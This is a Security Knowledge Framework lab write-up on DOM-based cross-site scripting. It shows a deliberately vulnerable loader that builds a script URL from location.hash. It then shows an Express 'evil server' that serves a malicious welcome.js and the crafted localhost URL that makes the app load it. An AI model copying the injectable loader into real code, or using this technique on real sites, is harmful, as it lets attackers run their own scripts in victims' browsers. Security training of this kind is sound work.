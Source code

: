 # KBID 3 - Cross Site Scripting \(DOM-2\)

## Running the app nodeJs

First make sure nodejs and npm are installed on your host machine.
After installation, we go to the folder of the lab we want to practice.
"i.e /skf-labs/XSS, /skf-labs/RFI/" and run the following commands:

```
$ npm install
```

```
$ npm start
```

Now that the app is running let's go hacking!

## Reconnaissance

#### Step 1

The application shows no input field or anything else we can interact with. Let's inspect the source code.

PRINTSCREEN PLACEHOLDER

Inspecting the source code of the application.

PRINTSCREEN PLACEHOLDER

```javascript
function loadWelcomeMessage() {
  setTimeout(function () {
    endpoint = location.hash.slice(5);
    var script = document.createElement("script");
    if (endpoint) {
      script.src = endpoint + "/js/welcome.js";
    } else {
      script.src = "/js/welcome.js";
    }
    document.head.appendChild(script);
  }, 2000);
}
```

We notice the application imports javascript files into the application using this function.

```javascript
endpoint = location.hash.slice(5);
```

Declaring endpoint variable which takes the url, whatever is after the hash(#) and using slice to remove the first 4 characters after that. If the endpoint exists it will load the file from there, otherwise it will load the file from the app folder.

PRINTSCREEN PLACEHOLDER

## Exploitation

We can start building our malicious server and server the application with our malicious js file.

```javascript
const express = require("express");
const app = express();
const path = require("path");

app.get("/static/js/welcome.js", function (req, res) {
  res.sendFile("welcome.js", {
    root: path.join(__dirname + "/static/js/"),
  });
});

const port = process.env.PORT || 1337;

app.listen(port, () => console.log(`Listening on port ${port}...!!!`));
```

Save the snippet above to &gt; evil_server.js and run the commands below to install some dependencies.
Of course you can also run your app on whatever service you want it does not have to be nodeJs express.

```text
$ npm install express
```

Now we need to create our malicous js file, save the following snippet code into /static/js/welcome.js

```javascript
document.getElementsByClassName("panel-body")[0].innerText = "pwned!!!";
```

We are ready to start our server:

```text
$ node evil_server.js
```

PRINTSCREEN PLACEHOLDER

Now we can serve our malicious js file to the application

```text
http://localhost:5000/#xxxxhttp://localhost:1337
```

PRINTSCREEN PLACEHOLDER

## Additional sources

Please refer to the OWASP testing guide for a full complete description about cross site scripting!

https://owasp.org/www-community/attacks/xss/
